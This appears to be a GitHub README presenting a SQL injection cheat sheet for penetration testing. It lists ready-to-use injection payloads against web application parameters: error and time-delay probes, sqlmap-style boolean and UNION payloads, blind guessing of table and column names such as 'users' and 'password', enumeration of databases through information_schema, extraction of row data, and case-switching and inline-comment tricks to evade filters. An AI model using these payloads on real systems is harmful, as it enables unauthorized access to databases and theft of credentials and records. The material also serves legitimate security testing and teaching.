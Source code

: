 # SQL-Injection-cheat-sheet
**First try to figure out vulnerable parameter**

NOTE: If it's a get request don't forget to url encode the characters.

param='  --> try to get error

param="   --> try to get error

param=' or 1=1 --> try if it works

param=' or 1=0  --> check if it returns nothing

param=' and 1=1  --> check if this works or produces error

' or sleep(2) and 1=1#  --> try get delay, sleep only operates when all other conditions are true and there is a requirement to operate it.

' or sleep(2)#  --> try get delay

admin' and sleep(2)#  --> will delay only if the user admin exists

' union select sleep(2),null#  --> check if it produces delay

' union select sleep(2),null,null,null,null#  --> check if it produces delay, check for different number of columns



try if above queries work by appending comment at the last

param=' or 1=1#  --> try if it works

param=' or 1=1 -- one space needed  --> try if it works

param=' or 1=1 //  --> try if it works

param= or 1=1#  --> try if it works

param=and or 1=1#  --> try if it works

param=' or 1=1-- sd  --> try if it works




**If above queries don't work try with these sqlmap payoads:**

'.)))("),.

'ghwshP<'">CZuifw

)+AND+4287=8913+AND+(7303=7303

)+AND+8680=8680+AND+(6351=6351

+AND+4573=5119

+AND+8680=8680

')+AND+9284=3986+AND+('ndfW'='ndfW

')+AND+8680=8680+AND+('juwu'='juwu

+AND+2138=DBMS_PIPE.RECEIVE_MESSAGE(CHR(83)||CHR(102)||CHR(111)||CHR(77),5)

')+AND+2138=DBMS_PIPE.RECEIVE_MESSAGE(CHR(83)||CHR(102)||CHR(111)||CHR(77),5)+AND+('VIDM'='VIDM

(SELECT+3273+FROM(SELECT+COUNT(*),CONCAT(0x716a6a7671,(SELECT+(ELT(3273=3273,1))),0x716b717071,FLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.PLUGINS+GROUP+BY+x)a)

(SELECT+CONCAT(0x716a6a7671,(SELECT+(ELT(6967=6967,1))),0x716b717071))

+AND+4920=(SELECT+UPPER(XMLType(CHR(60)||CHR(58)||CHR(113)||CHR(106)||CHR(106)||CHR(118)||CHR(113)||(SELECT+(CASE+WHEN+(4920=4920)+THEN+1+ELSE+0+END)+FROM+DUAL)||CHR(113)||CHR(107)||CHR(113)||CHR(112)||CHR(113)||CHR(62)))+FROM+DUAL)

)+AND+7244=4397+AND+(3968=3968

)+AND+6379=6379+AND+(1483=1483

')+AND+2572=3816+AND+('alWa'='alWa

')+AND+6379=6379+AND+('mxeB'='mxeB

)+UNION+ALL+SELECT+NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--+tsVj

+ORDER+BY+1--+UCdp

+UNION+ALL+SELECT+NULL--+UzBg

+UNION+ALL+SELECT+NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--+ISdf

')+ORDER+BY+8048--+qQkS

')+UNION+ALL+SELECT+NULL--+TFas

')+UNION+ALL+SELECT+NULL,NULL--+EZcP

%'+ORDER+BY+1--+NSgg

%'+ORDER+BY+7605--+dZkK

%'+UNION+ALL+SELECT+NULL--+JQPp

%'+UNION+ALL+SELECT+NULL,NULL--+VtSC

+UNION+ALL+SELECT+NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--+Lbrh

' UNION ALL SELECT NULL,NULL,CONCAT(0x716b6b6271,IFNULL(CAST(table_name AS CHAR),0x20),0x7162627671),NULL,NULL FROM INFORMATION_SCHEMA.TABLES-- sd   --> shows table_name inbetween few characers



**If nothing works try these Blind sql payloads:**

' AND (select 1)=1 <-- This should be TRUE Response -- subselect supported

Guessing Table name:

' AND (select 1 from admin limit 0,1)=1 <-- FALSE

' AND (select 1 from users limit 0,1)=1 <-- TRUE  ======> Table found 'users'



Guessing Columns:

' AND (select substring(concat(1,pass),1,1) from users limit 0,1)=1 <-- FALSE

' AND (select substring(concat(1,password),1,1) from users limit 0,1)=1 <-- TRUE    =====> Column 'password' found.




**Now determine number of columns in the current table**

param=' or 1=1 order by 1#

param=' or 1=1 order by 10#



let say there are 3 columns

**Now determine vulnerable columns or column which is visible**

param=' or 1=0 union select null,null,null# --> if it produces no error then try

param=' or 1=0 union select 1,2,3#  --> check which number shows in web page

Else try

param=' or 1=1 union select table_name,null,null from information_schema.tables#

if it produces error try table_name at other positions



Now, lets say column 1,2 are shown in web page

**To futher enumerate**

param=' or 1=0 union select table_schema,null,null from information_schema.columns#  --> display all database name

Note 1=0 in above query to show only databases


param=' or 1=0 union select version(),null,null from information_schema.columns#  --> retrieve version

param=' or 1=0 union select @@version,null,null from information_schema.columns#  --> retrieve version in mssql

param=' or 1=0 union select substring(version(),1,1)=1,null,null from information_schema.columns#  --> return true if version is 1.x.x

param=' or 1=0 union select substring(version(),1,1)=5,null,null from information_schema.columns#  --> return true if version is 5.x.x

param=' or 1=0 union select substring(version(),3,1)=2,null,null from information_schema.columns#  --> return true if version is 5.2.x

param=' or 1=0 union select table_name,null,null from information_schema.columns#  --> display all table name

param=' or 1=1 select table_name,null,null from information_schema.columns where table_schema='public'#  --> display tables inside public database

param=' or 1=1 select column_name,null,null from information_schema.columns where table_schema='public' and table_name='info'#  --> display all columns of info table

param=' or 1=1 select table_name as table,column_name as column,null from information_schema.columns#

Let say the database name is public and table name is info

Let the table info has two columns id and name

param=' or 1=0 union select id,null,null from public.info#  --> display id column from table "info"

param=' or 1=0 union select id,name,null from public.info#  --> display id and name column from table "info"

param=' or 1=0 union select id,name,null from public.info where id='papa'#  --> display id and name of 'papa'



**BYPASSING filters**

we can use case switching or commenting to bypass normal filters such as union, select


param=' or 1=0 UniOn selEct id,null,null FroM public.info#

param=' or 1=0 un/**/ion sele/**/ct id,null,null fr/**/om public.info# works in mssql

**Useful Resources**

http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet

http://garage4hackers.com/showthread.php?t=1990

**For Oracle DB**

Oracle does not have information schema and thus we need some alternatives for it. The link below can be helpful.

https://stackoverflow.com/questions/8739203/oracle-query-to-fetch-column-names


